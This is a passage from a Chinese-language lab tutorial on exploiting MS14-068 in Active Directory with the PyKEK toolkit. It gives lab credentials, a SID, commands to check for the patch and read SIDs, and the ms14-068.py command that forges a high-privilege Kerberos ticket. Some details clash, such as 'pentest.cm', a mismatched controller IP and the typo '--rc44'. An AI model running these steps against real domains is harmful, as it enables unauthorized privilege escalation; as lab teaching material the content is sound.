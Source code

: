 * 域：pentest.com
* 域账号：user1/Aa123456@
* 域SID：S-1-5-21-3112629480-1751665795-4053548595-1104
* 域控：Win-2K5J2NT2O7P.pentest.com
* Kali：172.16.86.131
* 域机器的IP：172.16.86.129

#### PyKEK工具包

项目地址：[mubix/pykek: Kerberos Exploitation Kit (github.com)](https://github.com/mubix/pykek)

##### 工具说明

ms14-068.py是工具包中的MS14-068漏洞利用脚本，其参数如下：

* -u 用户名@域名
* -s SID
* -d 域控地址
* -p 明文密码
* --rc44 没有明文密码使用NTLM Hash

##### 查看域控 补丁安装情况

```powershell
wmic qfe get hotfixid
```

MS14-068的补丁为KB3011780，没有安装即可进行攻击。

##### 查看用户的SID

以用户user1的身份登录，可获取SID可以使用：

```powershell
whoami /user
```

使用WMIC获取也是可以的

```powershell
wmic useraccount get name,sid
```

##### 生成高权限票据

使用PyEKE生成：

```powershell
ms14-068.exe -u 用户名@域名 -s SID -d 域控地址 -p 成员密码
```

或：

```powershell
python ms14-068.py -u user1@pentest.cm -s S-1-5-21-3112629480-1751665795-4053548595-1104 -d 172.16.86.130 -p Aa123456@
```

这会在当前目录下生成一个名为`TGT_user1@pentest.com.ccache`的票据文件。

